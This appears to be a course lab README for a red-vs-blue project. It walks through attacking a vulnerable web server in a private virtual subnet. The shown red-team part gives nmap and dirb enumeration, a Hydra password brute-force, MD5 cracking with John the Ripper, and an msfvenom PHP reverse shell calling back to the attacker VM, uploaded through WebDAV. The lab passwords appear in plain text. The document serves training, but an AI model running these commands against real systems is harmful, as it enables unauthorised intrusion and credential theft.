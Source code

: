 # Red-vs-Blue Project

## Summary:

>The purpose of this project is to assess, analyze and harden a vulnerable web server, while monitoring its logs
>This project was hosted in Azure Cloud, by leveraging the Hyper-V Manager on a Windows machine. The three virtual machines deployed off Hyper-V are: 
>
>1. The "Capstone VM" - Hostname: Server 1, running the Web Server, FileBeat, MetricBeat and PacketBeat. 
>2. The logs generated are then sent out to the second machine, the "ELK VM" - Hostname: ELK, running Elasticsearch, Logstash and Kibana. 
>3. The attacker machine used in this scenario is the "Kali VM" - Hostname: Kali, running packetbeat.
>
>NOTE: All virtual machines are hosted on the same virtual subnet: 192.168.1.0/24.

Network Diagram:
<img width="1301" alt="Network Diagram" src="https://user-images.githubusercontent.com/90374994/155470755-b24bfbd8-3198-4cb1-b42b-b24092328429.png">


## Red Team - Security Assessment

First step is to run a quick network scan:

'''bash
nmap -sV -sS 192.168.1.0/24
'''

The result:

![nmap scan](https://user-images.githubusercontent.com/90374994/155526909-55aeea1e-7326-4be4-bd6c-db7885ae215a.png)

We can see the Capstone VM (IP: 192.168.1.105) is hosting a web service on Port 80:

![Website homepage](https://user-images.githubusercontent.com/90374994/155528219-e5c6bdc1-8175-4647-bd95-6e2ba79c84de.png)

To find any hidden files and directories not directly listed on the website we can use Dirbuster (or 'dirb' command from Terminal) by providing it a wordlist to search

'''bash
dirb http://192.168.1.105/ /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
'''

The results show us there are two hidden directories:
  1. http://192.168.1.105/company_folders/secret_folder/
  2. http://192.168.1.105/webdav/

While trying to access the /secret_folder/ directory we are prompted with a warning disclosing the webpage is no longer accessible to the public and a login prompt requesting a username and password:

![secret_folder login](https://user-images.githubusercontent.com/90374994/155529687-3cee176f-441e-4c1c-a5e1-c7746f868931.png)

>NOTE: One clue that is included in the login prompt is "For ashtons eyes only" meaning one of the usernames is potentially "ashton" or "Ashton"

We can try a bruteforcing attack using Hydra and the username "ashton", as well as specifying port 80 and the 'rockyou.txt' wordlist:

'''bash
hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder
'''

The result of the bruteforce attack eventually returns the password found for user 'ashton' - leopoldo

![hydra result](https://user-images.githubusercontent.com/90374994/155531957-70e44d6d-40be-4353-aa9b-baf009ed0e2a.png)

Now that we are logged in to the /secret_folder/ there is a file '/connect_to_corp_server' containing a personal note

![personal note](https://user-images.githubusercontent.com/90374994/155532390-3e9e0928-1a5d-4088-a99f-5ab40364a42e.png)

The personal note includes information about how to connect to /webdav/ as well as a hint that the username might be "ryan" or "Ryan" together with an MD5 password hash for the account. 

We can try saving the hash into a file named "hash.txt" and use John the Ripper or a website such as https://crackstation.net/ to try and crack the password.
For using John the Ripper:

'''bash
john hash.txt --format=raw-md5 --show
'''

The result is the password in plain text: linux4u and we can try to login:

![webdav login](https://user-images.githubusercontent.com/90374994/155534746-23c7d436-04d9-4dbd-9c24-46ee76fe3ca8.png)

Now that we can login to the WebDav service we can try and upload malicious content.

![webdav1](https://user-images.githubusercontent.com/90374994/155537659-0e4003d1-0910-4e6e-a7fa-81ee20ae913c.png)

We will try and craft a meterpreter reverse shell using MSFVenom. Since the reverse shell will attempt to connect to the attacker machine, we will need to specify the LHOST as the Kali VM's IP address and the LPORT as 4444:

'''bash
msfvenom -p php/meterpreter/reverse_tcp -lhost=192.168.1.90 lport=4444 > shell.php
'''

Now, we can drag and drop the file in the WebDav folder, so we can access it from the web browser:

![webdav2](https://user-images.githubusercontent.com/90374994/155539922-532ce74a-d5c3-498c-8241-f787deb823da.png)



